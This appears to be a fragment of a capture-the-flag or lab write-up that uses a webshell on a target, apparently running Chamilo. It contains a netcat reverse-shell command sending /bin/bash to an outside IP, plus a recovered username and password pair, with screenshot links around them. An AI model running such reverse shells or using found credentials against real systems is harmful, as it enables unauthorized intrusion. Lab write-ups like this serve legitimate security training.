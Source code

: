 From the webshell
```
busybox nc 10.10.16.2 443 -e /bin/bash
```
![[Pasted image 20241017111622.png]]
`chamilo:03F6lY3uXAP2bkW8`

![[Pasted image 20241017111848.png]]
